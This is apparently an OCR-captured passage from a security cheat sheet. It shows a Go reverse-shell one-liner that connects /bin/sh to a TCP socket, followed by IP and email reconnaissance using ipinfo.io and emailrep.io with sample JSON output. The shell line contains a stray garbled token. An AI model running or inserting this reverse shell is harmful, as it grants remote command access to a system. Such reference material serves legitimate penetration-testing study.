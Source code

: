 ```golang
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","127.0.0.1:1337");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```

# Enumerating IPs with IPInfo

```curl ipinfo.io/54.90.107.240```

```
{
  "ip": "54.90.107.240",
  "hostname": "ec2-54-90-107-240.compute-1.amazonaws.com",
  "city": "Virginia Beach",
  "region": "Virginia",
  "country": "US",
  "loc": "36.8512,-76.1692",
  "org": "AS14618 Amazon.com, Inc.",
  "postal": "23465",
  "readme": "https://ipinfo.io/missingauth"
}
```
You can also utilize https://cybergordon.com/ to check for IP reputation!

# Email Recon

```curl emailrep.io/john.smith@gmail.com```

```
{
  "email": "john.smith@gmail.com",
  "reputation": "high",
  "suspicious": false,
  "references": 91,
  "details": {
    "blacklisted": false,
    "malicious_activity": false,
    "malicious_activity_recent": false,
    "credentials_leaked": true,
    "credentials_leaked_recent": false,
    "data_breach": true,
    "last_seen": "07/27/2019",
    "domain_exists": true,
    "domain_reputation": "n/a",
    "new_domain": false,
    "days_since_domain_creation": 8773,
    "suspicious_tld": false,
    "spam": false,
    "free_provider": true,
    "disposable": false,
    "deliverable": true,
    "accept_all": false,
    "valid_mx": true,
    "spoofable": true,
    "spf_strict": true,
    "dmarc_enforced": false,
    "profiles": [
      "lastfm",
      "pinterest",
      "foursquare",
      "aboutme",
      "spotify",
      "twitter",